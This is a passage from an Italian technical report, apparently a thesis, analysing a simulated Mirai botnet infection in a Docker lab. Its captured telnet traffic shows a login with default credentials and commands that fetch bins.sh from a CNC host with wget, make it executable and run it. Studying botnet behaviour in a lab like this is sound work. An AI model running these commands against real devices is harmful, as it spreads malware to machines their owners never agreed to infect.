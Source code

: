 \begin{lstlisting}[caption={Accesso riuscito durante la fase di infezione.}, label={tentativo_riuscito}]
    Dispositivo bersaglio:
    ............
    Bot-scanner:
    ............
    Dispositivo bersaglio:
    9a2769059702 login:
    Bot-scanner:
    admin
    Dispositivo bersaglio:
    admin
    Dipositivo bersaglio:
    Password:
    Bot-scanner:
    admin1234
    Dispositivo bersaglio:
    Welcome to Alpine!
    The Alpine Wiki contains a large amount of how-to guides 
    and general information about administrating Alpine systems.
    See <https://wiki.alpinelinux.org/>.
    You can setup the system with the command: setup-alpine
    You may change this message by editing /etc/motd.
\end{lstlisting}
Successivamente, il bot-scanner, proseguendo l'esecuzione dello script Python \texttt{scanner.py} invia al dispositivo compromesso una serie di comandi che gli permettono di scaricare dal server CNC lo script \texttt{bins.sh} tramite wget. Vengono poi inviati anche i comandi per rendere lo script eseguibile e per avviarne l'esecuzione. Tale sequenza di comandi è visibile all'interno del flusso TCP, analizzato tramite Wireshark, come mostrato nella Listato~\ref{ultimi_comandi_bot-scanner}.
\begin{lstlisting}[caption={Comandi per download ed esecuzione di bins.sh.}, label={ultimi_comandi_bot-scanner}]
    Bot-scanner:
    wget mirai-cnc/bins/bins.sh | sh
    Dispositivo bersaglio:
    wget mirai-cnc/bins/bins.sh | sh
    Connecting to mirai-cnc (192.168.10.9:80)
    saving to 'bins.sh'

    bins.sh  100%|********************************| 268 0:00:00 ETA
    'bins.sh' saved
    Bot-scanner:
    chmod +x bins.sh
    Dispositivo bersaglio:
    chmod +x bins.sh
    Bot-scanner:
    nohup ./bins.sh
    Dipositivo bersaglio:
    nohup ./bins.sh
    nohup: appending output to nohup.out
\end{lstlisting}
L'interazione tra il server CNC e il dispositivo compromesso inizia non appena quest'ultimo scarica tramite wget lo script \texttt{bins.sh}. Come già descritto nella Sezione~\ref{strumenti_di_simulazione}, il server CNC dispone di un unico file binario, ovvero il payload malevolo, compilato tramite il cross-compiler appropriato per l'architettura dei container Docker configurati come bot. Il dispositivo compromesso scarica il payload malevolo tramite una richiesta HTTP GET, ne modifica i permessi rendendolo eseguibile ed infine ne avvia l'esecuzione come mostrato nella porzione di codice dello script \texttt{bins.sh} illustrata nel Listato~\ref{download_binario}. 

